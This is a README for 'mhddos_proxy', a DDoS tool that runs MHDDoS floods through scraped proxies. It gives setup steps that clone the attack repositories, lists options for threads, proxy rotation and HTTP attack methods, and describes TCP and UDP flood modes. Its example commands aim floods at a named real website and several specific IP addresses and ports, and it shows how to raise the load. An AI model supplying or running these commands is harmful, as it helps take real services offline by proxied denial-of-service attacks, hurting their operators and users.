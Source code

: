 ## Setup

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    git clone https://github.com/MHProDev/MHDDoS.git
    git clone https://github.com/monosans/proxy-scraper-checker.git
    python3 -m pip install requirements.txt

# Usage

    python3 runner.py --help

    usage: runner.py [-h] 
                     [-t THREADS] 
                     [-p PERIOD]
                     [--proxy-timeout TIMEOUT]
                     [--rpc RPC] 
                     [--http-methods METHOD [METHOD ...]]
                     target [target ...]

    positional arguments:
      targets                List of targets, separated by space
    
    optional arguments:
      -h, --help             show this help message and exit
      -t 100                 Number of threads per CPU core (default is 100)
      -p 300                 How often to update the proxies (default is 300)
      --proxy-timeout 3      How many seconds to wait for the proxy to make a connection.
                             Higher values give more proxies, but with lower speed/quality.
                             Parsing also takes more time (default is 3)

      --rpc 100              How many requests to send on a single proxy connection (default is 100)

      --http-methods GET     List of HTTP(s) attack methods to use.
                             Default is GET, STRESS, BOT, DOWNLOADER.
                             Refer to MHDDoS docs for available options
                             (https://github.com/MHProDev/MHDDoS)

# Examples

For HTTP(S) targets, attack method is randomly selected from `--http-methods` option (see above for the default).  
For TCP targets, attack method is TCP FLOOD  
For UDP targets, attack method is UDP FLOOD. **VPN IS REQUIRED FOR UDP**, proxying is not supported.

    python3 runner.py https://tvzvezda.ru 5.188.56.124:9000 tcp://194.54.14.131:4477 udp://217.175.155.100:53

Target specification

- HTTP(S) by URL  - `https://tvzvezda.ru` or `http://tvzvezda.ru` 
- HTTP by IP:PORT - `5.188.56.124:9000`
- TCP by IP:PORT  - `tcp://194.54.14.131:4477`
- UDP by IP:PORT  - `udp://217.175.155.100:53` - **REQUIRES VPN**

Increase load

    python3 runner.py -t 300 https://tvzvezda.ru

Update proxies less often (every 10 minutes)

    python3 runner.py -p 600 https://tvzvezda.ru

Get more proxies (possibly lower quality)

    python3 runner.py --proxy-timeout 5 https://tvzvezda.ru

# TODO

- [ ] Docker image
- [ ] Debug mode

